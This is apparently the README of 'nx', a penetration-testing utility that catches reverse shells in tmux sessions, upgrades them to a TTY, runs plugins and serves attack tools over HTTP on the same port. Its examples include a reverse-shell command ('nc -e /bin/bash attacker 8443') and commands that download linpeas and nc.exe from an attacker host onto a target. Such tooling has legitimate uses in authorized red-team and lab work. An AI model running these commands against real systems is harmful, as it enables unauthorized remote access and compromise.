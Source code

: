 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

## Prerequisites

- tmux - required for session/window management
- socat - required for TTY handling and keystroke forwarding

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there

```
Usage:
  nx [OPTIONS]

Application Options:
      --auto       Attempt to auto-upgrade to a tty (deprecated: use --exec auto)
      --exec=      Execute plugin script on connection
  -i, --host=      Interface address on which to bind (default: 0.0.0.0)
  -p, --port=      Port on which to bind (default: 8443)
  -t, --target=    Tmux session name (default: nx)
  -v, --verbose    Debug logging
      --sleep=     adjust if --auto is failing (default: 500ms)
  -d, --serve-dir= Directory to serve files from over HTTP
```

## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP on the same port as shell connections using `--serve-dir`
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell scripts stored in `~/.config/nx/plugins/`.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
2. Make it executable: `chmod +x ~/.config/nx/plugins/<name>.sh`
3. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple shell scripts with these features:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script

## Protocol Multiplexing

nx can serve files over HTTP on the same port as shell connections. This allows you to host files and catch shells on a single port.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# Shell connections still work normally
nc -e /bin/bash attacker 8443

# From target machine - download files
wget http://attacker:8443/linpeas.sh

```


### Mixed Operation Example

```bash
# Terminal 1: Start nx with both features
nx -p 8443 -d ./tools -v

# Terminal 2: Download a tool from target
curl http://attacker:8443/nc.exe -o nc.exe

# Terminal 3: Catch reverse shell
nc -e /bin/bash attacker 8443
```

### HTTP Response Codes

- `200 OK`: File served successfully
- `404 Not Found`: File doesn't exist or is a directory
- `405 Method Not Allowed`: Non-GET HTTP methods
- `500 Internal Server Error`: Server-side errors

## How?

unix domain sockets mannn

## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [ ] handle stdio with the socket directly with `nx`, eliminating the need for `socat`
- [ ] facilitate installing plugins dir to xdg
- [ ] super simple chisel-light functionality
